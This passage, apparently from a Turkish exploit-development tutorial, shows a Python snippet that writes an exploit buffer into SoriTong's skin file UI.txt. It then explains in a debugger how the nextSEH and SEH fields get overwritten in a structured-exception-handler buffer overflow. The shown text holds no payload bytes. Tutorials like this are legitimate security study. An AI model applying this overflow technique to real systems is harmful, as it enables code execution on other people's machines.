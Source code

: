 ```python

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Immunity Debugger üzerinde çalıştıralım.

![15](img/0x03/15.png)

Şimdi sağ alt köşede nextSEH ve SEH alanlarını overwrite ettiğimizi görebilirsiniz. nextSEH  `12FD64` adresinde tutulmakta. Eğer sağ üstte registerların olduğu kısıma bakarsak bu adresin `EDI` registerına yazılmış olduğunu görebiliriz.

`SHIFT+F9` ile devam edelim
